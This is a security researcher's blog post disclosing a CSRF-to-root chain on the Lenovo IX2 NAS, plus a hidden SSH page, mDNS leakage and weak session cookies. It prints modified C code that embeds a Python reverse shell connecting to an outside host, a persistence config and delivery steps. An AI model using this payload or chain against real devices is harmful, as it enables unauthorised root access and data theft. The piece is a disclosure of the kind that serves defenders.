 #date: 2014-1-6 20:33:00 GMT
#slug: lenovo-ix2-csrf-root
#tags: lenovo,ix2,csrf,root,shell
#title: Lenovo IX2 Remote Root(CSRF), Multiple Vulnerabilities
#type: text

Over the holidays, we did an internal hackathon. I had access to a Lenovo IX2 NAS device, and I love breaking physical boxes - of course I had to go for it as my target. It's a simple ARM device running LifeLine Linux, a distribution designed by Lenovo to run on their NAS devices, both consumer and enterprise level. Within 5 minutes of opening the box and turning it on, I noticed there's absolutely no CSRF protection on any pages. 

So naturally, I spent a good deal of time looking for SQL/Command Injection. I came up with nothing. They sanitize all input fields very well. So I continued digging around on the device, with my sights set on getting a root shell. I discovered that you can turn on SSH, as well as set the SSH port/password via a hidden /manage/diagnostics.html page, that once again doesn't have CSRF protection on it. That was something, but seeing as how most of these devices are behind a firewall, the SSH was fairly useless from a remote attacker standpoint. 



I noticed an 'Applications' page on the device, that allows user to extend the functionality of their NAS device by installing third party apps. I started by trying to upload simple shell/php/cgi scripts, but with no luck. It's pretty picky about the formatting. I then tried to upload a valid third party app available from their lifelineapps store, and noticed it was in a strange .o2 file. After running file on it, turns out it's just a dpkg. 

I tried modifying files inside it and installing, but at compilation it creates an encrypted md5 hidden somewhere inside the .o2 file, making my modified .o2 invalid. After some searching around, I found the SDK available at http://www.developer.lifelineapps.com, available for the price of an email address. Unfortunately, it's not very well documented, and I didn't have a whole lot of time to figure out how their compiler expects the apps to be built. So I went for plan b - make an evil app from a demo. I downloaded the source for the Resource Monitor app, which is available once you've signed up for the SDK. 

Here's how I got a remote root shell running via CSRF.
  
**Lenovo IX2**
  
First, I opened up the main.c file inside the 'cpumon' folder. Pretty simple C program that retrieves system resource information, and prints it out into a JSON object. Here's what my modifications looked like:
```c
#include <stdlib.h>

printf("\"swapUsed\": \"%d\"", swapUsed); // in original code, 
	printf("}");						  // included as a reference point
	//python reverse connectback shell from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
	system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.112\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'"); 
```

After modifying the main.c file, I compiled the app from the 'resmon' folder using 'make target=arm-ix2-ng', and packed it into the required .tar.gz, assuming it would run upon install. Nope. I was able to get the shell to spawn by manually sshing in and executing, so I knew it was working as intended, but it wouldn't run. After some digging around, and a whole lot of frustration, I found the application.xml file had some options I could use to my advantage, particularly the cgibinDir option. 

I added the following to the application.xml files existing options:
```xml
<application cgibinDir="Yes" safeApp="Yes" isSecureUI="Yes"">
	<executable restartOnReboot="Yes" runOnce="No" sequence="1000" minutes="30" scheduled="Yes" />
</application>

```
The options will enable the cgi bin directory to be navigatable, set the executable to run at boot and schedule it to run every 30 minutes. The compiler is so kind as to create a symlink to the cpumon executable in the cgi directory(remember we can't modify any files after compilation or it will break). Alright, so now we've got an evil installer that can be run via csrf, but how do we go about exploiting it?

The first step is to generate the CSRF file upload. This can be done using an XMLHTTPRequest, which burp is handy enough to make with just a few clicks. There are two ways we can go about finding the IP of the internal device: 1, we can use the default mdns(ix2-dl.local) and hope the user hasn't changed it, or two, we can use webRTC to reveal the internal netmask and then force the user to ping scan their own network via XMLHTTPRequests. The PoC's for both are available on request. The exploit then sends the payload to all live IP's. Once the file has been uploaded, the executable should run automatically, as we've set it to be a scheduled with the application.xml. If it doesn't run for some reason, or you want to force it to run outside of the scheduled timing, that's why we set up the cgibinDir option. Simply navigate to http:ix2-dl.local/cpumon/cpumon-cgi/cpumon(no auth required), and we have a shell!

**Demonstration Video**
<iframe src="//player.vimeo.com/video/83540983" width="500" height="281" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="http://vimeo.com/83540983">Lenovo ix2-dl Root via CSRF</a> from <a href="http://vimeo.com/andyet">&amp;yet</a> on <a href="https://vimeo.com">Vimeo</a>.</p>

**Alright, so who's vulnerable?**
Any device running the Lenovo LifeLineEMC software version 4.0.6.19294 and prior is vulnerable. Simply change the compile target and rebuild. It does require that the user who visits the malicious page be logged in as admin, however.

**Hidden Page allows user to enable SSH and set Port+Password**
Example: http://ix2-dl/manage/diagnostics.html
This page allows a user to set the root SSH password and port, prefixed by the easily bruteforced word 'soho'. I.E. password test requires a logon password of sohotest. It appears this is intended behaviour, but is a huge risk given that there are no anti-CSRF tokens present on the page.

**Information Leakage**
The Lenovo device automatically sets the internal address to http://ix2-dl.local via MDNS. This makes it a whole lot easier to exploit the formentioned CSRF Vulnerabilities.

**Weak Session Cookies**

The Lenovo IX2-DL appears to set session cookies as
```
<User IP Address>.<Current Epoch Time>. 
```
This is not an adequate amount of entropy to prevent bruteforcing. In reality, an attacker only needs to guess 7-8 numeric characters before he has an authenticated session. Adding a secret nonce and hashing of the value before making it a session cookie would make the session cookie much more difficult to bruteforce.

